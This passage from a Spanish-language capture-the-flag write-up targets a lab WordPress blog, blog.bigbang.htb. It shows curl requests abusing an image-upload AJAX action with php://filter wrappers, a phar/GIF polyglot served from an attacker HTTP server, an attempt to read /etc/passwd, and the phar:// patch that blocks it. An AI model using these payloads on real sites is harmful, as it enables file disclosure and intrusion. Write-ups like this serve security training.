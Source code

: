 ~~~ bash
python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.52 - - [01/May/2025 14:25:04] "GET /evil.phar HTTP/1.1" 200 -
~~~

### PHP Wrappers

Haciendo uso de `wrappers` como `php://filter`, podemos cargar el contenido de un archivo en una nueva "imagen"

~~~ bash
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.base64-decode/resource=../wp-content/uploads/2025/05/1.png'

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/05\/1-27.png","attachment_id":190}# 
~~~

Si ahora solicitamos el nuevo recurso que se ha generado, podemos ver que se trata del archivo que subimos anteriormente

~~~ bash
curl 'http://blog.bigbang.htb/wp-content/uploads/2025/05/1-27.png' -so test.png

strings test.png 

GIF89a
<?php __HALT_COMPILER(); ?>
O:4:"Evil":0:{}
test.txt
text
1+|2
GBMB
~~~

El siguiente paso lógicamente sería intentar incluir archivos de la máquina y guardar su contenido en un nuevo archivo de "imagen" dentro del directorio `/uploads`. Sin embargo si usamos un `wrapper` de `PHP` para intentar hacer esto, el servidor rechaza nuestra solicitud

~~~ php
curl http://blog.bigbang.htb/wp-admin/admin-ajax.php -H 'Content-Type: application/x-www-form-urlencoded' -d 'action=upload_image_from_url&id=1&accepted_files=image/gif&url=php://filter/convert.base64-encode|convert.base64-decode/resource=php://filter/convert.base64-encode/resource=/etc/passwd'   
{"status":"FAILED","response":"File type  is not allowed."}# 
~~~

> El servidor no interpretará nuestra solicitud debido a que a partir de PHP 8, ya no se deserializan los metadatos para completar el ataque. Desde la versión 2.7.8, se ha implementado el siguiente parche
{: .notice--danger}

~~~ bash
if ( strpos( $valid_url, 'phar://' ) !== false ) {  
  return;  
}
~~~
